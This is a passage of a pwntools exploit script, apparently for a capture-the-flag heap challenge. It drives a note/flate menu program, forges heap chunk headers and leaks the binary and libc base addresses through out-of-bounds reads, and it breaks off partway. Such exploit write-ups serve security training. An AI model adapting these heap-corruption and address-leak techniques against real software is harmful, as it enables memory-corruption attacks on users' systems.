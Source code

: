 ```python


def GDB():
    if args.LOCAL:
        gdb.attach(p, gdbscript=gs)
    elif args.DOCKER:
        pid = get_pid("/app/run")
        gdb.attach(pid, exe=e.path,
                   gdbscript=gs+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe")
    pause()


def flate(s):
    p.sendlineafter(b'Enter your choice: ', b'1')
    p.sendlineafter(b'Enter a string to flate: ', s)


def deflate(s):
    p.sendlineafter(b'Enter your choice: ', b'2')
    p.sendlineafter(b'Enter a string to deflate: ', s)


def new_note(s):
    p.sendlineafter(b'Enter your choice: ', b'3')
    p.sendafter(b'Enter your note: ', s)


def edit_note(s):
    p.sendlineafter(b'Enter your choice: ', b'4')
    p.sendlineafter(b'Edit your note: ', s)


def del_note():
    p.sendlineafter(b'Enter your choice: ', b'5')


def view_note():
    p.sendlineafter(b'Enter your choice: ', b'6')


def select_note(idx):
    p.sendlineafter(b'Enter your choice: ', b'7')
    p.sendlineafter(b"Enter a note to select: ", str(idx).encode())


def get_5th_byte(n):
    return (n >> (5 * 8)) & 0xFF


while True:
    p = start()
    new_note(b'A'*0x3f0+p64(0)+p64(0x451+0x20))
    new_note(b'B'*(0x3e0-0x10)+p64(0x0)+p64(0x41))
    flate(b'513a')
    p.recvuntil(b'Flated: ')
    e.address = u64(p.recv(6)+b'\0\0') - 0x21d8
    log.success(hex(e.address))

    flate(b'24a'+b'520f')
    p.recvuntil(b'a'*24)
    libc.address = u64(p.recv(6)+b'\0\0') - (libc.sym.malloc+418)

    flate(b'80a'+b'500f')
```